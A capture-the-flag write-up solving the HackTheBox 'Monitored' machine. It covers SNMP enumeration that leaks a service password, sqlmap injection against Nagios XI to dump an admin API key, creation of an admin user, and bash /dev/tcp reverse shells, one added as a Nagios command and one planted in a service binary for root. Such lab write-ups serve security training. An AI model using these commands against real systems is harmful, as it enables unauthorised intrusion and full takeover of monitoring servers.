 # Monitored Write-up

<img src="https://labs.hackthebox.com/storage/avatars/d4988810825d26acb2e84ca0ac9feaf4.png" width="200" height="200">

## Nmap

 `nmap -sC -sV -p- 10.10.11.248`

    Not shown: 65492 closed tcp ports (conn-refused), 38 filtered tcp ports (no-response)
    PORT     STATE SERVICE    VERSION
    22/tcp   open  ssh        OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
    | ssh-hostkey: 
    |   3072 61:e2:e7:b4:1b:5d:46:dc:3b:2f:91:38:e6:6d:c5:ff (RSA)
    |   256 29:73:c5:a5:8d:aa:3f:60:a9:4a:a3:e5:9f:67:5c:93 (ECDSA)
    |_  256 6d:7a:f9:eb:8e:45:c2:02:6a:d5:8d:4d:b3:a3:37:6f (ED25519)
    80/tcp   open  http       Apache httpd 2.4.56
    |_http-server-header: Apache/2.4.56 (Debian)
    |_http-title: Did not follow redirect to https://nagios.monitored.htb/
    389/tcp  open  ldap       OpenLDAP 2.2.X - 2.3.X
    443/tcp  open  ssl/http   Apache httpd 2.4.56 ((Debian))
    |_http-title: Nagios XI
    | ssl-cert: Subject: commonName=nagios.monitored.htb/organizationName=Monitored/stateOrProvinceName=Dorset/countryName=UK
    | Not valid before: 2023-11-11T21:46:55
    |_Not valid after:  2297-08-25T21:46:55
    | tls-alpn: 
    |_  http/1.1
    |_ssl-date: TLS randomness does not represent time
    |_http-server-header: Apache/2.4.56 (Debian)
    5667/tcp open  tcpwrapped
    Service Info: Host: nagios.monitored.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

![image](https://github.com/zer00d4y/writeups/assets/128820441/f5004c7b-dd83-4381-9129-4fe903be0b90)

## snmpwalk

`snmpwalk -v2c -c public nagios.monitored.htb`

    ...
    so.3.6.1.2.1.25.4.2.1.5.404 = STRING: "--config /etc/laurel/config.toml"
    iso.3.6.1.2.1.25.4.2.1.5.530 = STRING: "-f"
    iso.3.6.1.2.1.25.4.2.1.5.532 = STRING: "--system --address=systemd: --nofork --nopidfile --systemd-activation --syslog-only"
    iso.3.6.1.2.1.25.4.2.1.5.546 = STRING: "-n -iNONE"
    iso.3.6.1.2.1.25.4.2.1.5.551 = STRING: "-f"
    iso.3.6.1.2.1.25.4.2.1.5.558 = STRING: "-u -s -O /run/wpa_supplicant"
    iso.3.6.1.2.1.25.4.2.1.5.569 = STRING: "-c sleep 30; sudo -u svc /bin/bash -c /opt/scripts/check_host.sh svc XjH7VCehowpR1xZB "
    iso.3.6.1.2.1.25.4.2.1.5.651 = STRING: "-4 -v -i -pf /run/dhclient.eth0.pid -lf /var/lib/dhcp/dhclient.eth0.leases -I -df /var/lib/dhcp/dhclient6.eth0.leases eth0"
    iso.3.6.1.2.1.25.4.2.1.5.762 = STRING: "-f /usr/local/nagios/etc/pnp/npcd.cfg"
    iso.3.6.1.2.1.25.4.2.1.5.773 = STRING: "-LOw -f -p /run/snmptrapd.pid"
    iso.3.6.1.2.1.25.4.2.1.5.791 = STRING: "-LOw -u Debian-snmp -g Debian-snmp -I -smux mteTrigger mteTriggerConf -f -p /run/snmpd.pid"
    iso.3.6.1.2.1.25.4.2.1.5.797 = STRING: "-p /var/run/ntpd.pid -g -u 108:116"
    iso.3.6.1.2.1.25.4.2.1.5.813 = STRING: "-o -p -- \\u --noclear tty1 linux"
    iso.3.6.1.2.1.25.4.2.1.5.832 = STRING: "-q --background=/var/run/shellinaboxd.pid -c /var/lib/shellinabox -p 7878 -u shellinabox -g shellinabox --user-css Black on Whit"
    iso.3.6.1.2.1.25.4.2.1.5.834 = STRING: "-q --background=/var/run/shellinaboxd.pid -c /var/lib/shellinabox -p 7878 -u shellinabox -g shellinabox --user-css Black on Whit"
    iso.3.6.1.2.1.25.4.2.1.5.847 = STRING: "-h ldap:/// ldapi:/// -g openldap -u openldap -F /etc/ldap/slapd.d"
    iso.3.6.1.2.1.25.4.2.1.5.855 = STRING: "-D /var/lib/postgresql/13/main -c config_file=/etc/postgresql/13/main/postgresql.conf"
    iso.3.6.1.2.1.25.4.2.1.5.861 = STRING: "-k start"
    ...

`svc`:`XjH7VCehowpR1xZB`

![image](https://github.com/zer00d4y/writeups/assets/128820441/3b110ee1-f0b4-4cde-83e8-bb600ca5aa86)

Now, we are logined to nagios.monitored.htb/nagios/

![image](https://github.com/zer00d4y/writeups/assets/128820441/feb235d6-834a-49a1-af62-813400723f90)

    sqlmap -u "https://nagios.monitored.htb//nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=3&token=$(curl -ksX POST https://nagios.monitored.htb/nagiosxi/api/v1/authenticate -d 'username=svc&password=XjH7VCehowpR1xZB&valid_min=500' | awk -F'"' '{print $12}')" --level 5 --risk 3 -p id --batch -D nagiosxi --dump -T xi_users

![image](https://github.com/zer00d4y/writeups/assets/128820441/cc24e06e-45a2-4fbc-8731-771f0d495940)

    IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL

We got the admin api key. Now let’s add a new user.

    curl -XPOST --insecure "https://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL&pretty=1" -d "username=myadmin&password=myadmin&name=myadmin&email=myadmin@localhost&auth_level=admin"

![image](https://github.com/zer00d4y/writeups/assets/128820441/56af1986-aec8-41ee-94c5-a8ed32f081b4)

Authorize with the credentials which we just added.

`myadmin`:`myadmin`

![image](https://github.com/zer00d4y/writeups/assets/128820441/cc7220fd-2a1a-4772-a9ed-27b98eef9dd5)

![image](https://github.com/zer00d4y/writeups/assets/128820441/2edcc96f-5ad8-4d40-a807-3a5091ba0943)

### ReverseShell

Open `Core Config Manager`

![image](https://github.com/zer00d4y/writeups/assets/128820441/24f32dc8-0101-4a3e-a3b3-1461da048f16)

Open `Commands`

![image](https://github.com/zer00d4y/writeups/assets/128820441/8307f827-c9d1-4133-9c3d-9997f526e87c)

start listener 

![image](https://github.com/zer00d4y/writeups/assets/128820441/82a0606e-0a6d-4e03-9c19-12597e461dff)

Add new command with our shell

    bash -c 'bash -i >&/dev/tcp/your_ip/port 0>&1'

![image](https://github.com/zer00d4y/writeups/assets/128820441/c827bebf-6546-4f38-a96d-514a19ef01f0)

![image](https://github.com/zer00d4y/writeups/assets/128820441/1d2f124b-b088-4f9d-9a4d-666a5deed0a5)

![image](https://github.com/zer00d4y/writeups/assets/128820441/8f289353-83cb-473b-8f87-02f0f9494d47)

![image](https://github.com/zer00d4y/writeups/assets/128820441/a9da3a57-45cf-4a07-a8e8-e30030e608dd)

![image](https://github.com/zer00d4y/writeups/assets/128820441/a9bbfc09-8815-4044-8368-82cb4155453c)

![image](https://github.com/zer00d4y/writeups/assets/128820441/6b446dd7-bb7c-4739-8f16-6dff76ed0481)

Get the user flag 

![image](https://github.com/zer00d4y/writeups/assets/128820441/44d07945-d2cd-4b77-ad84-4b08764fcb57)

## Privilege Escalation

`sudo -l`

![image](https://github.com/zer00d4y/writeups/assets/128820441/6eab57a2-edfd-45ae-be75-ab590e7db6e5)

look at the manage service script:

`cat /usr/local/nagiosxi/scripts/manage_services.sh`

We can see that the script manages services. Let's work with the npcd service. First we will stop the service, then check its state to find the location of the systemd file

Note that the execution comes from: /usr/local/nagios/bin/npcd, which also has user permissions.

We will now remove and replace the npcd service with our payload.

    rm /usr/local/nagios/bin/npcd
    touch /usr/local/nagios/bin/npcd
    chmod +x /usr/local/nagios/bin/npcd
    echo '#!/bin/bash' > /usr/local/nagios/bin/npcd
    echo "bash -c 'bash -i >& /dev/tcp/10.10.14.91/6565 0>&1'" >> /usr/local/nagios/bin/npcd
    sudo /usr/local/nagiosxi/scripts/manage_services.sh restart npcd

![image](https://github.com/zer00d4y/writeups/assets/128820441/71abbb0b-3124-42de-9167-18c7184c3a40)

start listener 

![image](https://github.com/zer00d4y/writeups/assets/128820441/41d440a4-27fc-45e7-b28c-415c1764c695)

And get the root flag

![image](https://github.com/zer00d4y/writeups/assets/128820441/67d40574-4f44-4d09-ae4e-675eef72eb1b)


